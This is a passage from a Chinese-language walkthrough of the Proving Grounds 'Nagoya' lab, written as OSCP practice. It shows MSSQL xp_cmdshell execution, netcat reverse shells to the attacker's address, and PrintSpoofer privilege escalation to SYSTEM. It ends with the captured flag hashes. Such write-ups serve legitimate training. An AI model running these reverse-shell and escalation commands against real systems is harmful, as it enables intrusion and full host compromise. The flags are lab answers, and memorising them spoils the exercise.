SQL&gt; exec xp_cmdshell &#39;whoami&#39;;
output
-------  
nagoya-ind\svc_mssql
NULL

SQL&gt;
```

执行反弹shell到nc

```sh
SQL&gt; exec xp_cmdshell &#39;C:\tmp\nc64.exe 192.168.45.193 4444 -e powershell&#39;;
```

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Nagoya]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.45.193] from (UNKNOWN) [192.168.166.21] 50232
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32&gt; whoami
whoami
nagoya-ind\svc_mssql
PS C:\Windows\system32&gt; 
```

检查当前用户权限：

```sh
PS C:\tmp&gt; whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

发现有SeImpersonatePrivilege，可以利用提权，上传 PrintSpoofer64.exe 进行提权

```
PS C:\tmp&gt; .\PrintSpoofer64.exe -c &#34;C:\tmp\nc64.exe 192.168.45.193 5555 -e powershell&#34;
.\PrintSpoofer64.exe -c &#34;C:\tmp\nc64.exe 192.168.45.193 5555 -e powershell&#34;
[&#43;] Found privilege: SeImpersonatePrivilege
[&#43;] Named pipe listening...
[&#43;] CreateProcessAsUser() OK

```

nc收到反弹shell

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Nagoya]
└─$ nc -nlvp 5555
listening on [any] 5555 ...
connect to [192.168.45.193] from (UNKNOWN) [192.168.166.21] 50271
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32&gt; whoami
whoami
nagoya-ind\nagoya$

PS C:\Windows\system32&gt; type C:\Users\Administrator\Desktop\proof.txt
type C:\Users\Administrator\Desktop\proof.txt
fa2dba2c7bdff500c6f6ce31dfa6037e
```


## Flag

```sh
*Evil-WinRM* PS C:\Users\Christopher.Lewis&gt; type C:\local.txt
81950a6ba1771f388080cb994a7fcb33

type C:\Users\Administrator\Desktop\proof.txt
fa2dba2c7bdff500c6f6ce31dfa6037e
```


---

> 作者: Xavier  
> URL: http://localhost:1313/posts/provinggrounds-nagoya/  

